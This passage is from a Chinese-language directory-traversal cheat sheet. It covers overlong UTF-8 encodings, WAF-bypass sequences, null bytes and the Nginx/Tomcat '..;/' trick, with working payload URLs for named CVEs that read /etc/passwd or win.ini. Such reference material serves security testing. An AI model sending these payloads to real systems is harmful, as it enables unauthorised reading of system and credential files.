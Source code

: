 | 字符 | 编码后 |
| --- | -------- |
| `.` | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/` | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\` | `%c0%5c`, `%c0%80%5c` |

### 混乱路径

有时您会遇到一个会删除`../`字符的WAF，只需重复它们即可。

```powershell
..././
...\.\
```

**示例:** Mirasys DVMS Workstation <=5.12.6

```ps1
{{BaseURL}}/.../.../.../.../.../.../.../.../.../windows/win.ini
```

### 空字节

空字节（`%00`），也称为空字符，是许多编程语言和系统中的特殊控制字符（0x00）。在C和C++等语言中，它通常用作字符串终止符。在目录遍历攻击中，空字节用于操纵或绕过服务器端输入验证机制。

**示例:** Homematic CCU3 CVE-2019-9726

```js
{{BaseURL}}/.%00./.%00./etc/passwd
```

**示例:** Kyocera Printer d-COPIA253MF CVE-2020-23575

```js
{{BaseURL}}/wlmeng/../../../../../../../../../../../etc/passwd%00index.htm
```

### 反向代理URL实现

Nginx将`/..;/`视为目录，而Tomcat将其视为`/../`，这允许我们访问任意servlet。

```powershell
..;/
```

**示例**: Pascom云电话系统 CVE-2021-45967

NGINX和后端Tomcat服务器之间的配置错误导致Tomcat服务器中的路径遍历，暴露了意外的端点。

```js
{{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}
```

## 利用

这些利用影响与特定技术相关的机制。
